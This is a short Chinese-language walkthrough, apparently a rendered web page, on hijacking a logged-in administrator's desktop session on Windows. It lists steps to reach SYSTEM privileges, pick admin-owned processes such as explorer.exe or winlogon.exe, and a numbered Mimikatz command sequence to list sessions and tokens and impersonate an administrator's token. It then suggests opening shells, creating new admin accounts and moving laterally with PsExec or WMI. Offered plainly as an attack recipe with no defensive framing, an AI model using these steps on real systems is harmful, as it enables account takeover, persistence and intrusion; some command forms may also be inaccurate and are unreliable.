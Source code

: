 ### 桌面有管理员会话，怎么做会话劫持

**步骤一：获取 SYSTEM 权限**

要窃取管理员的令牌，你首先需要获得比该管理员会话更高的权限，通常是 **SYSTEM 权限**

- **方法一：** 如果你当前是以管理员权限运行的，可以尝试直接使用 Mimikatz 的 `token::elevate` 命令，它会尝试提升到 SYSTEM 权限
- **方法二：** 如果当前权限较低，可以通过提权漏洞（如服务权限配置错误、内核漏洞等）来提升到 SYSTEM 权限

**步骤二：识别目标进程**

你需要找到一个由管理员账户启动的进程，该进程的令牌是你想要窃取的。通常，你可以通过 `tasklist /v` 命令来查看所有进程及其所属的用户

- **常用目标进程：**
  - `explorer.exe`：这是桌面进程，通常由当前登录的用户启动
  - `winlogon.exe`：这是一个关键的系统进程，与用户会话和登录相关
  - 其他由管理员账户启动的应用程序

**步骤三：窃取并冒用令牌**

一旦你有了 SYSTEM 权限，就可以使用 Mimikatz 来窃取令牌

- **命令：**
  1. `mimikatz.exe`
  2. `privilege::debug`
  3. `token::elevate`
  4. `whoami` （此时你应该看到你是 `NT AUTHORITY\SYSTEM`）
  5. `ts::session` （列出所有会话，找到管理员的会话 ID）
  6. `ts::s` + `<会话ID>` （切换到管理员的会话）
  7. `token::list` （列出当前会话的所有令牌，找到管理员的令牌）
  8. `token::impersonate /p:<进程ID>` （冒充管理员会话的某个进程的令牌）
  9. `whoami` （此时你应该看到你已经是管理员用户了）

**步骤四：执行命令**

当你成功冒充管理员身份后，你就可以执行任何管理员权限的命令，例如：

- `shell powershell`
- `shell cmd.exe`
- 创建新的管理员账户
- 执行横向渗透命令（如 `PsExec`、`WMI`）